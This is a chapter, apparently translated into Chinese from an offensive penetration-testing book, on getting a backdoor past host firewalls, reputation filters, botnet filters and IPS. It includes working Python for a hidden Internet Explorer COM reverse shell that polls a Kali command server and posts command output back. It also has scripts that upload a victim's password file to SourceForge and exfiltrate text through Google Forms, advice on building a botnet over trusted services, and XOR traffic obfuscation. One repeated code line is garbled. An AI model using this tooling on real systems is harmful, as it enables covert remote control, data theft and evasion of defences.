



# 第四章：追捕我吧！

在今天的世界里，绕过和劫持软件在互联网上到处都是。然而，明确的使用和执行方式才是让你成为一名优秀的业余黑客的关键。

这可以通过正确选择工具并遵循必要的过程，完美地完成手头的任务来实现。

在本章中，我们将涵盖以下主题，帮助你实现这一目标：

+   绕过基于主机的防火墙

+   劫持 IE

+   绕过拒绝过滤

+   与 SourceForge 互动

+   与 Google Forms 互动

+   绕过僵尸网络过滤

+   利用手工 XOR 加密绕过 IPS

# 绕过基于主机的防火墙

在我们之前的所有章节中，我们假设目标机器上的任何进程都可以在没有任何限制的情况下启动与互联网的连接。现在，在许多企业网络中，他们不再依赖内置的 Windows 防火墙。相反，他们使用高级的基于主机的防火墙来限制哪些进程可以启动与互联网的连接，就像访问控制列表（ACL）一样工作。因此，假设系统管理员只允许一些业务所需的进程访问互联网。例如，假设系统管理员允许 Windows 更新和杀毒软件更新，以及常见的浏览器，如 Chrome、Internet Explorer 和 Firefox。因此，只有这些进程被允许访问互联网，其他任何进程都会被阻止。通过实施这样的策略，我们的后门无法存活，因为它默认不会列入管理员的允许列表。最终，我们无法获得对攻击者机器的 shell。

然而，如果我们找到一种方法，能够利用我们的 Python 脚本某种方式控制**Internet Explorer**（**IE**），然后迫使它在后台连接到我们的 Kali HTTP 服务器并来回传输命令，那么我们就能绕过基于主机的防火墙策略。微软提供了**组件对象模型**（**COM**），以支持进程间通信，并通过编程方式创建对象来控制和自动化多个微软产品，如 Outlook、Internet Explorer、Word 和 Excel。Internet Explorer 是所有 Windows 版本中内置的浏览器；因此，它应该始终可用，并且通常被安全管理员列为白名单中的备份浏览器，以防其他浏览器无法使用。让 Internet Explorer 代替我们发起连接的另一个好处是，如果目标在连接互联网之前使用了内部代理，那么你不必担心知道代理信息，因为 Internet Explorer 会为我们处理这一切。

所以，我们在这里做的是假设主机防火墙只允许某些进程，如杀毒软件、Firefox、Internet Explorer 或 Windows 更新，其他的都不允许。为此，在我们的 Python 脚本中，我们将定义一个 COM 对象来控制 Internet Explorer。然后，我们将让 Internet Explorer 导航到我们位于 Kali 机器上的 HTTP 服务器，并获取需要执行的命令。

一旦我们得到需要执行的命令，我们将启动一个子进程。我们检索命令并传递给 EXE。然后，使用 COM 对象，我们将通过 Python 脚本将其返回并启动`cmd.exe`作为子进程。使用 COM 对象获取的命令结果，我们会将其传递给 Internet Explorer，然后将其发布到我们位于 Kali 机器上的网站。如果你记得，这种技术与我们之前的 HTTP 反向 Shell 非常相似，但这里的关键区别是我们使用 Internet Explorer 作为我们的 Web 客户端，而不是像之前那样使用`requests`库。从主机防火墙的角度来看，最终的结果是，Python 脚本并没有启动任何外部会话，而是 Internet Explorer 启动了会话。

以下链接将提供有关 COM 协议的更多信息：[`claudihome.com/html/LR/WebHelp/Content/VuGen/132800_click_and_script.htm`](http://claudihome.com/html/LR/WebHelp/Content/VuGen/132800_click_and_script.htm)

# 劫持 IE

一如既往，使用 Python 编程将使你的生活更加轻松。现在，要在 Python 中使用 COM，你只需要安装 Python for Windows 或`pywin`库。由于我们在创建之前的键盘记录器时已经安装了这个库，这里就不再详细讲解了。现在，让我们进入编码部分：

```
# Python For Offensive PenTest

# Install Python for Windows pywin32-219.win32-py2.7
# http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/

# Hijacking IE - Shell Over IE

from win32com.client import Dispatch
from time import sleep
import subprocess

ie = Dispatch("InternetExplorer.Application") # Create browser instance.
ie.Visible = 0 # Make it invisible [ run in background ] (1= invisible)
...
```

在这里，我们通过创建一个`InternetExplorer`对象实例并将 Visible 选项设置为 0，意味着 Internet Explorer 将在后台运行。

如果我们将值设置为 1，那么 Internet Explorer 窗口将显示到目标桌面上，这是我们不希望发生的。

```
...
# Paramaeters for POST
dURL = "http://10.10.10.100"
Flags = 0
TargetFrame = ""

while True:

    ie.Navigate("http://10.0.10.100") # Navigate to our kali web server to grab the hacker commands

    while ie.ReadyState != 4: # Wait for browser to finish loading.
        sleep(1)

    command = ie.Document.body.innerHTML

    command = unicode(command) # Converts HTML entities to unicode. For example '&amp;' becomes '&'
    command = command.encode('ascii','ignore') # encode the command into ASCII string and ignore any exception
    print ' [+] We received command ' + command

    if 'terminate' in command: # if the received command was terminate
        ie.Quit() # quit the IE and end up the process 
        break # end the loop

    else: # if the received command was NOT terminate then we inject the command into a shell and store the result in a variable called Data
        CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)

        Data = CMD.stdout.read()
        PostData = buffer( Data ) # in order to submit or post data using COM technique , it requires to buffer the data first
                                  # https://docs.python.org/2/library/functions.html#buffer
        ie.Navigate( dURL, Flags, TargetFrame, PostData ) # we post the comamnd execution result along with the post parameters which we defined earlier..

    sleep(3)
```

接下来，我们开始进入一个无限循环，并导航到我们的 Kali IP 地址。我们将等待浏览器完成加载。如果浏览器没有完全加载页面，我们会休眠一秒钟。请注意，当浏览器加载完成时，`ReadyState`的值为`4`，此时第二个循环将被终止。

接下来，我们将 HTML 页面加载到一个名为`command`的变量中；然后，我们将 HTML 实体转换为`unicode`。最后，我们将命令编码为 ASCII 字符串，并忽略在此过程中可能发生的任何异常。最终结果将是我们应该执行的命令，并且我们会将其打印出来。与我们之前的 Shell 一样，如果我们从 Kali 机器获得`terminate`命令，我们将退出 Internet Explorer 实例并`break`循环。如果命令没有终止，我们就将命令注入到 Shell 中，并将结果存储在一个名为`Data`的变量中。现在，为了使用 COM 技术提交或发布`Data`，首先需要对`Data`进行`buffer`处理，我们使用了 Python 内置的`buffer()`函数来实现这一点。最后，我们将命令执行结果与之前定义的`POST`参数一起提交。我们从未使用过`Flags`或`TargetFrame`，所以我们将它们设置为默认值。这里的主要参数是`dURL`，它定义了我们希望提交数据的目标 URL。

让我们稍微跳到攻击者的一方，这里我们使用的正是之前在 HTTP 反向 Shell 中使用的那个 HTTP Web 服务器。启动目标端脚本后，Internet Explorer 将在后台启动，正如我们从以下截图中的 Windows 任务管理器的进程标签可以看到的那样：


如你所见，它对用户完全不可见。IE 正在运行，但正如我们所看到的，GUI 并没有出现在应用程序标签中。在受害者端的 Kali 机器上执行`ipconfig`命令时，我们获得了`ipconfig`命令的输出。接下来，我们可以访问目录以及执行其他命令。你还可以执行一个快速的`ping 10.10.10.100`：

```
dir
cd
whoami
arp -a
ping 10.10.10.100
```

输出将类似于以下内容：

```
[+] We received command ipconfig
[+] We received command dir
[+] We received command cd
[+] We received command whoami
[+] We received command arp -a
[+] We received command ping 10.10.10.100
```

我们的 Shell 已经完全可用了。那么，再次解释一下刚刚发生了什么：

+   我们的 Python 脚本在后台启动了 Internet Explorer 进程，并且我们使用 Internet Explorer 导航到 Kali 端的命令和控制服务器。

+   然后，我们通过`GET`和`POST`方法在它们之间来回传输数据。

+   现在，最后注意，这不仅限于一个 Shell。你还可以通过 COM 协议传输文件和提交数据。

+   我们将留给你去发现使用 COM 协议时可以做的其他功能。

# 绕过下一代防火墙中的信誉过滤

下一代防火墙是集成式防火墙。它们在一个设备中具备所有安全功能，如 IPS、杀毒、反垃圾邮件和信誉过滤等。在这一部分中，我们将讨论一个重要的安全功能，它可以防止我们在目标上成功获取 shell。现在，假设我们已经成功在目标机器上植入了 Python 反向 shell。现在，在传统防火墙中，如果**访问控制列表**（**ACL**）允许外部流量，则我们会成功获取到 shell。但如果防火墙正在进行信誉过滤，那么一旦客户端发起会话并返回到我们的 Kali 机器并到达防火墙时，防火墙将进行查找并检查目标 IP。然后，它会检查目标 IP 是否属于恶意网站。这个检查是基于 IP 池进行的，IP 池是防火墙从厂商数据库下载的 IP 列表。因此，如果是 Cisco 防火墙，它会使用 Cisco 数据库。如果是 Palo Alto 防火墙，它会使用 Palo Alto 池。这个数据库或池包含了大量带有信誉排名的 IP 列表。

例如，假设在 IP 或数据库中有一个 IP 地址 `1.1.1.1`，它的排名为 `10`，意味着它完全可以信任。同时，我们还有一个 IP 地址 `2.2.2.2`，它的排名较低为 `2`，这意味着它被报告为恶意 IP。假设攻击者的 IP 地址是 `3.3.3.3`。当发起的会话到达防火墙，并且目标 IP 地址为 `3.3.3.3` 时，如果这个 IP 没有被列入白名单，并且在 IP 数据库中的排名较低，那么防火墙将丢弃该流量，并将此决策记录到管理员日志中。

这里的想法是使用像 Google Forms 这样的服务器或网站提交文本，或者可能使用 SourceForge 上传文件。这样做的好处是，首先，这两个服务器或服务都非常知名，且在 `10` 分制中的信誉排名很高。因此，我们预计会在 IP 池或 IP 数据库中看到[`www.google.com`](https://www.google.com)或 Google Forms，且其排名为 `10`。其次，它可能从未被安全管理员或实时监控流量的人员标记为可疑。

# 与 SourceForge 互动

在本节中，我们将看到如何轻松地将文件上传到 SourceForge。从声誉过滤的角度来看，SourceForge 通常是白名单的，可能从未被安全管理员关注过。SourceForge 提供多种与其存储库交互的方式。我们将使用 SCP，这是通过 SSH 会话传输文件。现在，在 SourceForge 创建帐户很容易，因此我们将跳过这部分。在开始之前，花一分钟阅读 SourceForge 有关使用 SCP 和所需格式的文档，[`sourceforge.net/p/forge/documentation/SCP/`](https://sourceforge.net/p/forge/documentation/SCP/)。我将登录我的账户，我已经创建了一个名为`Test`的项目，目前没有任何文件。

现在让我们立即进入编码部分。我们将使用两个库来完成我们的工作：

```
# Python For Offensive PenTest

# Interacting with SourceForge

import paramiko # pip install paramiko
import scp # download link: https://pypi.python.org/pypi/scp
...
```

第一个库是`paramiko`。`paramiko`是 SSHv2 协议的 Python 实现，提供客户端和服务器功能。`scp`是在`paramiko`之上构建的更高级库，用于在一行代码中传输文件。

在使用这些库之前，必须首先安装一个名为`PyCrypto`的先决条件库，从[`www.voidspace.org.uk/python/modules.shtml#pycrypto`](http://www.voidspace.org.uk/python/modules.shtml#pycrypto)下载。步骤非常简单。

下一步是使用`pip`命令安装`paramiko`：

```
pip install paramiko
```

最后一步是安装`scp`库。如果在库设置脚本中遇到任何问题，只需将库手动复制到 Python site-packages 目录中。只需通过导航到 Python27 | Lib | site-packages 粘贴 scp 脚本。

让我们来看看剩下的脚本：

```
...
ssh_client = paramiko.SSHClient() # creating an ssh_client instance using paramiko sshclient class

'''
when you connect to an ssh server at the first time, if the ssh server keys are not stores on the client side, you will get a warning
message syaing that the server keys are not chached in the system and will prompt whether you want to accept those keys.

since we do an automation on the target side, we inform paramiko to accept these keys for the first time without interrupting the session or
prompting the user and this done via > set_missing_host_key_policy(paramiko.AutoAddPolicy()
'''

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

ssh_client.connect("web.sourceforge.net", username="hkhrais", password="[123justyouandme]") #Authenticate ourselves to the sourceforge server
print '[+] Authenticating against web.sourceforge.net ...' #please use your own login credentials :D

scp = scp.SCPClient(ssh_client.get_transport()) #after a successful authentication the ssh session id will be passed into SCPClient function

scp.put('C:/Users/Hussam/Desktop/password.txt') # upload to file( in this case it's password.txt) that we want to grab from the target to /root directory
print '[+] File is uploaded '

scp.close()
print '[+] Closing the socket'
```

因此，我们的脚本将从使用`paramiko.SSHClient()`类创建一个`ssh_client`实例开始。现在，当您第一次连接到 SSH 服务器并且如果 SSH 服务器密钥未存储在客户端端，您将收到一个警告消息，指出服务器密钥未缓存在系统中；它将提示您接受这些密钥。

打开 PuTTY 软件，使用`web.sourceforge.net`作为主机名，端口`22`，协议为 SSH 连接到 SourceForge 服务器。现在，点击打开：



我们将收到一个警告弹出窗口，因为密钥未缓存在系统中。现在，由于我们执行自动化，我们将通知`Paramiko`在第一次接受这些密钥时不中断会话或提示用户。这将通过`client.set_missing_host_key_policy`，然后`AutoAddPolicy()`完成。

代码块中的下一步是定义我们要连接的 SourceForge 服务器名称，并上传我们的文件。我们还提供了登录凭据。在提供了 `username` 和 `password` 后，我们将通过 SourceForge 服务器进行身份验证。身份验证成功后，SSH 会话 ID 将传递给 `SCPClient()` 函数，并且 `get_transport()` 函数将返回该会话 ID。完成此步骤后，我们所要做的就是指定要导出的文件路径，并将其上传到我们的仓库。

在这个例子中，我使用了第 5 模块或 `M5.pdf` 文件。因此，我们将使用 SCP 中的 `put()` 函数来执行上传，最后通过 `.close()` 函数关闭会话。

运行脚本后，我们将收到以下成功认证信息：

```
>>>
[+] Authenticating against web.sourceforge.net ...
[+] File is uploaded
[+] Closing the socket
>>>
```

现在，让我们切换到攻击者端，验证我们是否得到了文件。首先，安装 FileZilla FTP 客户端来访问我们的仓库：

```
apt-get install filezilla 
```

通过运行`filezilla`打开软件，并输入先前在脚本中输入的服务器名称/主机名、用户名、密码和端口号，以登录您的帐户。由于这是第一次登录，会出现警告信息，如果我们稍微向下滚动，就可以看到文件已经成功上传。`M5` 文件已经成功上传，以下截图显示了这一点：


尝试通过右键点击文件名并选择“下载”来下载此文件。如果没有错误，控制台会显示文件已成功传输。

现在，重复上述步骤，使用 `.txt` 扩展名检查是否成功。刷新攻击者侧并查看内容。渗透测试评估完成后，请确保从 SourceForge 仓库中删除文件。

# 与 Google Forms 互动

在前面的部分，我们已经看到如何将数据导出到 SourceForge 网站。现在，我们将使用 Google Forms 提交普通文本。请注意，这些文本可能是我们 Shell 的命令执行输出。这里的关键点是，类似 SourceForge，Google Forms 也有相当高的信誉排名。按照以下步骤开始：

1.  登录 Google Forms

1.  点击“开始新表单”创建一个新的 Google 表单

1.  将问题输入为 `Python 不是很酷吗？`

1.  在“响应”选项卡中，保留电子表格的默认名称

1.  将问题类型从默认的“多项选择”更改为“段落”

1.  创建表单后，点击“发送”

1.  将提供的链接复制到记事本或文本文件中

1.  访问我们复制的链接并提交一个简单的文本

1.  检查我们创建的 Google Sheet 中的响应，到那时它将存储在您的 Google Drive 中

现在，我们将编写一个 Python 脚本，将目标端的文本数据提交到我们的 Google 表单，最棒的是，我们可以在不登录 Google 账户的情况下完成这项工作。像往常一样，最适合与网页交互的 Python 库是 `requests`，我们在前面的章节中已经使用过 `requests`：

```
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read Google terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest

# Interacting with Google Forms

import requests # To install requests library, just type on the CMD: pip install requests

url = 'https://docs.google.com/forms/d/e/1FAIpQLSdNHreWMKC4li3a-Ox7IzQZ9mkZjI94I8U6jz8yHBkePXSPoA/formResponse' # please replace the URL with your own google form :D

'''
notice that i added /formResponse to the end of the URL and this is inherited from the page HTML source code,
as we can see below, the HTML form action contains /formResponse when method POST is used to send the user data
so we have to add this part when we automate the data submission
<div class="ss-form"><form action="https://docs.google.com/forms/d/1Ndjnm5YViqIYXyIuoTHsCqW_YfGa-vaaKEahY2cc5cs/formResponse?pli=1"
method="POST" id="ss-form" target="_self" onsubmit=""><ol role="list" class="ss-question-list" style="padding-left: 0">
'''

form_data = {'entry.1542374001':'Hello from Python'}

r = requests.post(url, data=form_data)
# Submitting form-encoded data in requests:-
# http://docs.python-requests.org/en/latest/user/quickstart/#more-complicated-post-requests
```

再次强调，安装非常简单：只需执行 `pip install requests`。现在，我们看到的是 `requests` 文档，用于提交 HTML 表单编码的 `POST` 请求：



现在，根据文档，我们首先定义提交表单的 URL，在我们的例子中，就是 Google 表单的 URL。第二个参数是我们的数据，以字典格式呈现，其中我们有一个 `key` 和对应的值。请记住，`key` 是表单名称，而它的值是我们要发送的文本数据。

让我们跳转到 Google 表单链接，找出表单名称，这将是我们字典中的 `key`。打开我们创建的表单的源代码，在 HTML 中搜索 `Python` 字符串。如果仔细查看，你会发现提交文本的 HTML 表单名称。在我们的例子中，作为 `<textarea name>` 的值，表单名称是 `entry.1542374001`：



到这里为止，我们已经发现了 `key` 名称，这就是我们需要用来自动化这个过程的东西。记住，值是我们想要发送或提交的数据。

现在先将表单名称复制到记事本文件中。接着，我们需要返回到之前的`与 Google 表单交互`脚本并在其中填入这些信息。首先复制表单的 URL，并将其赋值给 `import requests` 行下方的 `url` 变量，最后，去掉 URL 中的 `/viewform` 部分，并在末尾添加 `/formResponse`。将表单名称 `entry.1542374001` 作为键，暂时将数据设为 `Hello From Python`：

```
...
url = 'https://docs.google.com/forms/d/e/1FAIpQLSdNHreWMKC4li3a-Ox7IzQZ9mkZjI94I8U6jz8yHBkePXSPoA/formResponse'
...
form_data = {'entry.1542374001':'Hello from Python'}
...
```

保存脚本。到目前为止，我们已经准备好了所有内容。让我们运行脚本，如果一切正常如预期，我们应该会在表单响应中看到 `Hello From Python` 被添加进去。

在下一部分，我们将展示如何在实际的渗透测试中使用这个脚本。

# 绕过僵尸网络过滤

如果你按照顺序阅读了前面的章节，那么到这一点，你应该能够在不登录 Twitter 和提交文本到 Google 表单的情况下，掌握 Twitter 的命令操作，同时也无需登录 Google 账户。最后，你应该能够将文件上传到 SourceForge。那么，你可能会问：黑客能用这些服务做什么？

好吧，他们可以像发布推文一样发送 `ipconfig` 命令，然后让多个感染的目标解析这条推文并执行命令。执行命令后，我们可以将执行结果提交到 Google 表单。或者，如果命令语法或格式包含 `grab` 关键字，那么目标将会把文件上传到我们的 SourceForge 仓库。

现在，在现代防火墙中，僵尸网络过滤功能会根据某些标准或参数进行查找，例如现代僵尸网络使用的应用程序或协议，如 IRC、动态 DNS，以及从内部到外部主机创建的会话数量。所有这些都会被现代或下一代防火墙考虑，用来检查这些流量是否属于僵尸网络。此外，不需要多提的是，声誉过滤也是这些检查和过滤的一部分。

基于知名服务器构建僵尸网络的好处是，首先，我们不使用 IRC 渠道或动态 DNS。接下来，我们不需要与攻击者机器进行直接互动或交互。最后，所有这些服务器或服务都是知名且可信的。

如果你滥用这些服务并在实验室环境之外使用它们，你将违反服务条款和协议，最终根据相关地区的司法管辖区，你将受到法律的追诉。

请记住，我的目的是让你意识到类似类型的攻击，这样你就能警惕它们。所以，我希望你挑战自己，尝试将所有这些脚本合并并压缩成一个高级 Shell，然后尝试在你的家庭实验室环境中感染多台运行 Windows 7 的虚拟机。之后，或者最后，你将能够控制它们并提取数据。我们在本节中没有提到的最后一点是加密。在下一节中，我们将看到如何轻松地构建 XOR 加密并掩盖我们的明文流量。

# 使用手工 XOR 加密绕过 IPS

在本节中，我们将用 Python 构建一个简单的 XOR 加密。现在，流量加密是避开网络分析器或 IPS 传感器的最强大技术之一，但在开始编码之前，让我们先快速了解这些设备最初是如何工作的。

一般来说，这些设备可以在两种模式下运行：第一种模式是**基于签名的模式**，它会检查通过传感器的包参数和数据负载。然后，类似于杀毒软件，它检查是否与其签名数据库有任何匹配，并根据匹配规则指定的操作，可能会丢弃或记录流量。第二种模式是**基于行为**或**基于异常**的模式，在这种模式下，你将 IPS 安装在网络中，它会学习协议类型以及通过传感器的包速率。然后，它会基于当前的网络流量建立其数据库或基线数据库。

例如，在一个网络中，假设我们有 50 台 PC 通常使用 SSH 访问远程服务器。如果 IPS 是基于行为的，它会学习到平均而言我们有 50 个 SSH 会话，并会为此创建基线。后来，如果某台 PC 使用了 Telnet，IPS 会认为这个协议是可疑活动，并可能丢弃这个连接。尽管 Telnet 会话是合法的，但由于 IPS 在学习阶段没有注意到任何 Telnet 会话，它不会把它包含在 IPS 基线中，这种错误的行为被称为**误报**。这就是为什么基于行为的 IPS 不常使用的原因，因为它们经常出现误报。

现在，我们将编写一个非常简单的 XOR 加密来掩码我们的数据负载。你可能会想：为什么是 XOR 加密？为什么不创建一个 SSH 或 HTTPS shell，因为这些协议本身就提供加密？嗯，我不推荐这样做，因为在许多企业网络中，你可能会发现目标安装了一个解密设备，它可以终止 SSL 和 SSH 加密。基本上，一旦流量进入该设备，它会转换或移除这些协议的加密，并在将其传递到 IPS 传感器进行检查之前，将其转换为明文。技术上来说，你不会拥有端到端加密的 shell，如果你遇到这个解密设备，你就没有任何附加值。

许多现代防火墙或下一代防火墙可以终止 SSL 和 SSH 加密进行检查。

让我们跳到编码部分：

```
# Python For Offensive PenTest

import string # The random and string libraries are used to generate a random string with flexible criteria
import random

# XOR Encryption

# Random Key Generator

key = ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(1024))

# the for loop defines the key size, key size is 1 KB which if you remember in our TCP shell, it matches the TCP socket size :)
# the "".join will put the result for the random strings into a sequence and we finally will store it in a key variable 
# so all in all the for loop will generate a 1024 random string which are matching our criteria and . join is used to gather these strings into a sequence

print key
print '\n' + 'Key length = ' + str ( len(key) )

# After we generate the XOR key, you need to take into consideration the XOR encryption rule which says the key length must be greater or equal the msg/data
# which we will send over the tunnel. len(key) >= len(message) 

message = 'ipconfig' # this is the message which we will encrypt before it's getting sent
print "Msg is " + message + '\n'
...
```

让我们先看一下第一部分。我们将生成一个随机密钥，用于 XOR 加密。现在，我们的密钥应该足够复杂，并满足以下标准：它应包含小写字母、大写字母、数字和特殊字符。现在，最后的`for`循环定义了密钥的大小。密钥的大小是 1 KB，这在我们的 TCP shell 中，如果你记得的话，与 TCP 套接字大小相匹配。开始的空字符串`.join`将把随机字符串的结果放入一个序列，最后我们将其存储在`key`变量中。总的来说，`for`循环将生成`1024`个符合我们标准的随机字符串，而`.join`用于将这些字符串汇集成一个序列。

运行代码时，将生成一个长度为`1024`的密钥，我们可以用来进行加密。如果你再运行一次脚本，你会得到一个完全不同但大小相同的密钥：

```
...
# here i defined a dedicated function called str_xor, we will pass two values to this function, the first value is the message(s1) that we want to encrypt or decrypt, 
# and the second parameter is the xor key(s2). We were able to bind the encryption and the decryption phases in one function because the xor operation is exactly the
# same when we encrypt or decrypt, the only difference is that when we encrypt we pass the message in clear text and when we want to decrypt we pass the encrypted message

def str_xor(s1, s2):
 return "".join([chr(ord(c1) ^ ord(c2)) for (c1,c2) in zip(s1,s2)])

# first we split the message and the xor key to a list of character pair in tuples format >> for (c1,c2) in zip(s1,s2)

# next we will go through each tuple, and converting them to integer using (ord) function, once they converted into integers we can now 
# perform exclusive OR on them >> ord(c1) ^ ord(c2)

# then convert the result back to ASCII using (chr) function >> chr(ord(c1) ^ ord(c2))
# last step we will merge the resulting array of characters as a sequence string using >>> "".join function 

#Here we do a quick test 

enc = str_xor(message, key)
print 'Encrypted message is: ' + '\n' + enc + '\n' 

dec = str_xor(enc, key)
print 'Decrypted message is: ' + '\n' + dec

#Make sure that the SAME Key is HARDCODED in the Server AND client, otherwise you won't be able to decode your own messages!
```

在 XOR 加密的第二部分，请记住密钥的大小应该等于或大于明文消息。我们将两个值传递给专用函数 `str_xor()`。第一个参数 `s1` 是我们要加密或解密的消息，第二个参数 `s2` 是 XOR 密钥。请注意，使用相同的 `key` 进行加密和解密。消息可以是我们想要解密的加密消息，也可以是我们想要加密的明文消息。因此，XOR 操作在加密和解密时是完全相同的。唯一的区别是，在加密时，我们传递明文消息，而在解密时，我们传递加密消息。以下这行来自 `XOR Encryption` 脚本的代码会为我们同时执行加密和解密：

```
...
return "".json([chr{ord(c1) ^ ord(c2)) for (c1,c2) in zip(s1,s2)])
...
```

所以，首先，我们将消息和 XOR 密钥分割为一对对字符的列表，格式为元组。接下来，我们将遍历每个元组，并使用 `ord()` 函数将其转换为整数。现在，一旦它们转换为整数，我们就可以对它们执行排他性 XOR 操作。然后，在最后部分，我们将使用字符函数 `chr()` 将结果转换回 ASCII。最后，我们将通过 `.join()` 函数将结果字符数组合并成一个序列。所以，总结起来，我们将首先打印明文消息，然后是加密后的版本，最后是解密后的消息。

运行脚本后，你将在输出中看到 XOR 密钥、我们传递的消息、加密后的消息以及解密后的消息。

每次运行脚本时，都会生成一个新的密钥，因此会显示一个新的加密消息。

一旦生成了 XOR 密钥，请确保将相同的密钥硬编码到你的 Kali 服务器脚本和 Windows 后门中，否则你将无法解密你的消息。

# 总结

在本章中，我们讨论了从绕过防火墙到与网站交互的广泛话题。我们在使用各种工具和不同方法的基础上，完成了这些任务，从而能够通过攻击者机器攻击受害者机器或加密解密我们的消息。

在接下来的章节中，我们将讨论与弱服务文件权限相关的特权提升，准备易受攻击的软件，通过后门侵入合法的 Windows 服务，以及创建新的管理员账户。
